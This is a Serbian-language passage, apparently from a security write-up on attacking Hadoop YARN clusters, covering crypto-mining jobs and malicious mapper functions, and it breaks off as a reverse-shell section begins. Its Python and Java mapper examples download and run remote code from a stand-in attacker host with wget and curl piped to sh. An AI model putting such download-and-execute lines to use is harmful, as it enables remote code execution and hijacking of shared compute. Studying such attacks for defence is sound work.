 ![CPU opterećenje _NodeManager_ čvora](./NM_CPU_opterecenje.png)

_Slika 4: CPU opterećenje _NodeManager_ čvora uzrokovanom pokretanjem crypto mining posla_


Ako je napadač zaposleni, tada on poseduje terminal sesiju nad _ResourceManager_ čvorom i može definisati malicioznu _mapper_ funkciju. Sledeće varijante zaobilaze korišćenje _YARN REST API_ servisa. 

Primer _mapper_ funkcije napisane u _Python_ programskom jeziku:
``` py
def mapper:
  os.system("wget http://attacker.com/malware.py -O /tmp/malware.py && python /tmp/malware.py")
```
Primer _mapper_ funkcije napisane u _Java_ programskom jeziku:
``` java
public class Mapper extends Mapper<LongWritable, Text, Text, IntWritable> {
  @Override
  protected void map(LongWritable key, Text value, Context context) {
    Runtime.getRuntime().exec("curl http://attacker.com/malware.sh | sh");
  }
}
```
U kasnijim primerima će biti prikazane komande kojima se pokreću poslovi na različite načine.

### _Reverse shell_ aplikacija

U ovom slučaju prikazaće se pokretanje malicioznog posla čiji opis predstavlja _reverse shell_ komandu uz kasniju eskalaciju napada. Za  uspostavljanje _reverse shell_ sesije korišćen je alat _msfconsole_.
